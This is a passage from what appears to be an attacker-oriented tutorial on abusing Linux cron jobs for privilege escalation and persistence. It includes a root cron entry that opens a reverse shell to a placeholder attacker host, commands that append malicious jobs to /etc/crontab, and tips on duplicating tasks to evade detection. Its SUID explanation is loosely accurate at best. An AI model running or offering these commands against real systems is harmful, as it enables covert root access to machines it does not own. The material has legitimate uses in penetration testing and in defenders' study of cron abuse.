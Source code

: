 - If there is a cron job running a script with **SUID** permissions, the attacker could modify the script to include malicious commands, such as opening a reverse shell:

```bash
chmod u+s /path/to/script
/path/to/script
```

The **SUID** flag allows the attacker to execute the script with the privileges of the user who owns the script, potentially granting elevated access.

### **C. Writing to Cron Files**

In some cases, an attacker may gain write access to cron job files directly in `/etc/cron.d/` or `/var/spool/cron/crontabs/`. If these files are not properly secured, the attacker can add malicious tasks.

Example:

```bash
echo "* * * * * root /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" > /etc/cron.d/malicious
```

This command adds a cron job that opens a reverse shell every minute, connecting back to the attacker's system.

### **D. Abusing the Cron Daemon**

An attacker can exploit the **Cron Daemon** itself if it is misconfigured. For example, by exploiting insecure configurations in `/etc/crontab` or `/etc/cron.d/`, an attacker can execute malicious code.

Example:

- Adding a malicious task to cron:

```bash
echo "* * * * * root /path/to/malicious.sh" >> /etc/crontab
```

If the attacker has write access to these files, they can add cron jobs to run malicious scripts.

---

## **3. Advanced Techniques for Maintaining Persistence**

### **A. Task Replication**

An attacker can create multiple scheduled tasks that run at different times, making it harder to detect the original malicious task. Each task can be set to run at different intervals, ensuring continued access to the system even if some tasks are discovered and removed.

### **B. Exploiting Mutexes and Locks**

Some scheduled tasks use **Mutexes** (mutual exclusions) or **Locks** to prevent the same task from running multiple times. An attacker can exploit this by using these mechanisms to execute malicious tasks in sequence or even prevent legitimate tasks from running.

---

**`Happy Hacking Broo`**

---